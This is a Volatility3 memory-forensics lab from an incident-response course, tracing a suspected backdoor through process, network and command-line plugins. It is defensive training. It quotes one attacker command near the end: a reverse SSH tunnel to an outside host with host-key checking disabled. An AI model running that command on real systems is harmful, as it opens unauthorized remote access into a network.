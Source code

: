 ## Introduction to Memory Analysis Using Volatility

The information contained in a computer's volatile data (or in the RAM of the computer) can be vital to an incident responder.  We call it volatile for a reason, it will change while the computer is operation, but probably most importantly for an investigation, if we power off the computer, we will lose the data that we may need to answer certain questions.

From a host based perspective, one of the more important questions is what process is communicating with what IP address and can we get more information from that process?

Open a PowerShell prompt and change directory into the directory containing the memory image.

 `cd .\Desktop\lab_data\Incident_Response_Foundations\course_labs_data\course_labs\memory-analysis-volatility\` 
 
The 'physmem2.raw' file is a raw memory dump of a system that is suspected of having a backdoor running on it. The vr_nestat_enriched.zip file we will use to compare analysis techniques.

There are two versions of Volatility, version 2 and version 3.  Volatility2 is deprecated and runs on Python2.  Volatility3 is the current version and runs on Python3.

Volatility2 has more analysis plugins that Volatility3, but there could be a time in your analysis career that you want version2 for specific capabilities.  Both are installed in the AMI.  

We will use [Volatility3](https://volatility3.readthedocs.io/en/stable/) for this lab.


&nbsp;

<img src="images/memory_analysis_volatility_windows_0.png"  width="60%" height="30%">

&nbsp;

The first module we should run is the 'windows.info' to make sure Volatility can read the image file and that it seems to properly identify the Operating System as Windows 10.

```
C:\tools\volatility3\volatility3-develop\vol.py -f .\physmem2.raw windows.info

```

&nbsp;

<img src="images/memory_analysis_volatility_windows_1.png"  width="60%" height="30%">

&nbsp;

Since we are investigating a potential backdoor, we should start with looking at processes and network traffic and see if we can determine if anything looks suspicious.  We will use the 'windows.plist' and 'windows.netscan' modules.  

If you have some volatility experience, you may wish to stop the step-by-step lab instructions here and see if you can identify the backdoor process and determine what technique is being used.

First use the 'windows.plist' module to output the running processes from the system we are investigating.  

```
C:\tools\volatility3\volatility3-develop\vol.py -f .\physmem2.raw windows.pslist
```


&nbsp;

<img src="images/memory_analysis_volatility_windows_2.png"  width="60%" height="30%">

&nbsp;


Next we will run the 'windows.netscan' to investigate network connections.  The output will contain network status for processes, for example if they are listening on a port for incoming communication, or if they have an established connection and to where.

&nbsp;

<img src="images/memory_analysis_volatility_windows_3.png"  width="60%" height="30%">

&nbsp;

One problem you have likely just noticed is the output to the screen (also known as standard output, or Stdout) is less than ideal to read because the output likely overlaps the length and width of the screen.  One trick I like to use is to redirect the standard output to a text file, especially if the command takes more than a few seconds to run or if there are thousands of lines of output.

While these files have been prestaged for you, to create them yourself you would use the following commands:

```
C:\tools\volatility3\volatility3-develop\vol.py -f .\physmem2.raw windows.netscan > windows_netscan.txt
C:\tools\volatility3\volatility3-develop\vol.py -f .\physmem2.raw windows.pslist > windows_pslist.txt

```

Open the file location with the two staged files in Windows Explorer the defaults location is : 


```
C:\Users\Administrator\Desktop\lab_data\Incident_Response_Foundations\course_labs_data\course_labs\memory-analysis-volatility

```

Right click on each file and open them in Notepad ++

&nbsp;

<img src="images/memory_analysis_volatility_windows_4.png"  width="60%" height="30%">

&nbsp;



It appears that powerhshell.exe process has launched the ssh.exe process.  In most circumstances in a Windows environment this would make me suspicious unless the user was a systems administrator.

&nbsp;

<img src="images/memory_analysis_volatility_windows_5.png"  width="60%" height="30%">

&nbsp;

In the network output, we see that ssh.exe is connected to an external IP address.  This would add more suspicion to the ssh.exe process.

&nbsp;

<img src="images/memory_analysis_volatility_windows_6.png"  width="60%" height="30%">

&nbsp;

There is another network connection associated with ssh.exe that looks like it is over TCP 4444.  This port is not commonly associated with SSH, and is also suspicious.

&nbsp;

<img src="images/memory_analysis_volatility_windows_7.png"  width="60%" height="30%">

&nbsp;

How can we find more information about what happened with this memory dump?  One trick that I have used in the past is to dump out the process to file using the 'windows.memmap.Memmap' module and then use the strings utility in Linux to find interesting text.  This can be tedious, and in this case, if this is the [built in ssh.exe executable in Windows](https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview), then there may not be much useful in there that we could not obtain in an easier way.

Since it appears that powershell.exe was the parent process for ssh.exe, we should use the windows.cmdline.CmdLine' module.  This will list command line activity.


```
C:\tools\volatility3\volatility3-develop\vol.py -f .\physmem2.raw windows.cmdline.CmdLine
```

&nbsp;

<img src="images/memory_analysis_volatility_windows_8.png"  width="60%" height="30%">

&nbsp;

We see that the command executed was `ssh.exe sshtunnel@remote.digitalpirateradio.com -f -N -R 50000 -p 8415 -o StrictHostKeyChecking=no` and looks like it was the built in SSH executable.

This technique was part of an attack that came from a real world incident.  This allows the attacker on the remote system to execute commands into the compromised network.  We can assume that the connection to the 192.168.1.55 system is lateral movement and would expand our investigation to include that system.

For more information on what the switches of the command do check out this blog post https://www.blackhillsinfosec.com/ssh-dont-tell-them-i-am-not-https/

#### Additional analysis options

If you still have time left in the lab take a look at the `vr_netstat_enriched.zip` file in the same directory.  This represents output from a Velociraptor hunt using the Windows Netstat Enriched module.  See if you can find the suspicious process in less time than it would take using the same techniques with TADViewer from the previous lab.

This will likely take less time on a per host basis and illustrates the 'Cast a Wide Net' versus the in-depth analysis approach with Volatility and a single host.